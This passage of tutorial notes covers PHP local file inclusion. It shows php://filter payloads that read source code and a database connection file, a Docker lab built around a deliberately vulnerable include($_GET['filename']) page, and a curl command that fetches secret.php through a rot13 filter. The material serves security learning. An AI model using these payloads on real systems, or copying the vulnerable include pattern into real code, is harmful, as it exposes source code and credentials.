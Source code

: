 by this.
```php
include $page;
```
___
## Simply PHP Wrapper
Let's start with *php base64 encoder* wrapper to view *.php* files in raw.
```txt
# Wrapper
php://filter/convert.base64-encode/resource=<PHP_FILE>
```
___
![[Pasted image 20230712170737.png]]
___
And the base64 string decoded show us database connection php file -> **admin/db_connect.php**.
![[Pasted image 20230712171129.png]]
___
Let's see that file using the same *wrapper* and decoding it.
![[Pasted image 20230712171619.png]]
___
## PHP Enconding Wrappers
Let's see another wrappers.
First, we are going to create a Docker image of **Ubuntu:latest**.
```shell
docker pull ubuntu:latest
docker run -dit -p 80:80 --name lfiTesting <image_ID>
docker exec -it lfiTesting bash
```
___
We are going to install *vim*, *apache2* and *php* inside the container and then start *apache* service.
```shell
apt update
apt install vim apache2 php
service apache2 start
```
___
We will remove *index.html* and create *index.php* from **/var/www/html**. Also, we will create a secret file *secret.php* that contains sensitive content.
*index.php*
```php
<?php
	$filename = $_GET['filename'];
	include($filename);
?>
```
*secret.php*
```php
<?php
	// You shouldn't see this content >:C
?>
```
___
- You can use the wrapper: **php://filter/read=string.rot13/resource=FILE**.
	![[Pasted image 20230712174244.png]]
	And you can decode *Caesar cipher* by executing this shell code.
	```shell
	curl -s -X GET "http://localhost/index.php?filename=php://filter/read=string.rot13/resource=secret.php" | tr '[c-za-bC-ZA-B]' '[p-za-oP-ZA-O]' 
	```
